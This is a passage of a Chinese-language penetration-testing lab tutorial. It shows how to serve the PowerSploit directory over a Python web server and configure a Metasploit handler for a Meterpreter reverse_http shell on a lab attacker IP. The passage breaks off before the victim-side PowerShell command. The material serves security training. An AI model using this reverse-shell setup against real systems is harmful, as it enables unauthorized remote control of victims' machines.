 在实验楼中，Kali Linux 虚拟机的 IP 地址可以通过命令 `ifconfig` 查看，由图可以知道攻击机 Kali Linux 操作系统的 IP 地址为 `192.168.122.101`。接下来在 Kali 的命令终端中输入如下命令，启动 Web 服务。其中 SimpleHTTPServer 是一个 Python 模块，它的作用是让你瞬间创建一个 Web 服务器或服务在一个单元文件：

```
# 确保在 /usr/share/powersploit 这个文件夹下
# 启动 Web 服务器
python -m SimpleHTTPServer
```

![图片描述](../imgs/1482387082115.png-wm.png)

在开启了 Python 创建的简单 Web 服务器之后，我们再打开 Kali Linux 下的 Msfconsole 终端，输入如下命令启动 Msfconsole 终端，并且对相应的攻击模块进行配置：

```
# 选用相应模块
# 设置 windows 下辅助模块
# 设置攻击者的主机 IP 地址
# 设置攻击者监听的端口命令
# 输入攻击命令

msf > use exploit/multi/handler
msf > set PAYLOAD windows/meterpreter/reverse_http
msf > set LHOST 192.168.122.101
msf > set LPORT 4444
msf > exploit
```

![图片描述](../imgs/1482390669986.png-wm.png)

**由于实验楼环境中并未安装 Windows 虚拟机，所以无法验证实验的有效性。对于完整版的本地演示，可以查看第 4.2 节中 本地 Kali Linux 演示完整版（选看） **

如果有 Windows 系统，则下一步是运行 PowerShell 这个工具。在 PowerShell 这个命令行中输入命令，注意，其中的 IP 地址需要换成攻击者主机的 IP 地址：
